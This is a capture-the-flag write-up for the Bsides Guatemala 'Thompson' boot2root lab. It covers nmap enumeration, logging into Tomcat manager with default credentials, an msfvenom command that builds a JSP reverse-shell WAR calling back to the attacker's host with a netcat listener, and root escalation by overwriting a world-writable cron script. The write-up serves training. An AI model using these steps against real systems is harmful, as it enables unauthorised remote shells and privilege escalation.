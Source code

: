 # Bsides Guatemala CTF Thompson boot2root machine
![room logo](assets/Room_Logo.png)  
Simple Boot2Root box  
Find `user.txt` and `root.txt` FTW!!!  

## Enumeration

Tool of choice is `nmap` with superuser privileges

```
Nmap 7.93 scan initiated Sat Oct  1 22:34:17 2022 as: nmap -Pn -sC -sV -vv -oN scans/thompson_init -T4 10.10.192.158
Nmap scan report for 10.10.192.158
Host is up, received user-set (0.23s latency).
Scanned at 2022-10-01 22:34:17 EDT for 31s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G[..]
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
| ecdsa-sha2![](assets/Screenshot_Apache_Tomcat_Home.png)
-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZF[...]
|   256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33
8009/tcp open  ajp13   syn-ack ttl 61 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack ttl 61 Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supporte![](assets/Screenshot_Apache_Tomcat_Home.png)
d Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  1 22:34:49 2022 -- 1 IP address (1 host up) scanned in 31.98 seconds
```

## Discovery
![home](assets/Screenshot_Apache_Tomcat_Home.png)


## Exploit

Apache Tomcat running on port 8080, this should be fun.  
Load up the discovered service in a browser with ZAP running to intercept traffic and lo and behold the 
server sends the **STATUS** page as the login prompt is popping up. The contents of the page include a snippet 
revealing default install creds which can be seen below  

![default creds](assets/snip_mgr_status_src.png)  

These creds are valid and I'm logged on to the Tomcat server as an Admin  

![](assets/Screenshot_manager_logon-640x480.png)

This page reveals I can deploy apps from Web Archive Files aka `WAR` files.  

Will deploy an app to spawn of _reverse shell_ back to my attacker box using a _war file_ generated by 
`msfvenom` and catch that shell with `netcat`.  


	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$MYIP LPORT=4448 -f war > revshell.war 
	Payload size: 1100 bytes
	Final size of war file: 1100 bytes
	
	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ nc -lvnp 4448                
	listening on [any] 4448 ...
	Connect from ...

So we get our shell and find some interesting files in `/home/jack`  
One of the files is our first flag `user.txt`  
Cat that one out for half the points!  
Laying next to `user.txt` is `test.txt` and `id.sh`  
These files are interesting as the contents of `test.txt` is  

	uid=0(root) gid=0(root) groups=0(root)

That looks suspiciously like the root account running the command `id`  

Wonder what's in `/etc/crontab` ?  

Aha! An entry in the system **CRONTAB** to run this `/home/jack/id.sh` once a minute. The file itself currently 
logs it's output to the `test.txt` file.  
But what is great news for us is that `id.sh` is world writeable. iow 
_anyone_ can change the contents of `id.sh`.  Which is exactly what we are going to do.  

```
echo "cat /root/root.txt > test.txt" > id.sh
```

Wait about a minute and cat out the contents of `test.txt` that has `/root/root.txt` echoed into it by the System **CRONJOB**


And that's a wrap!
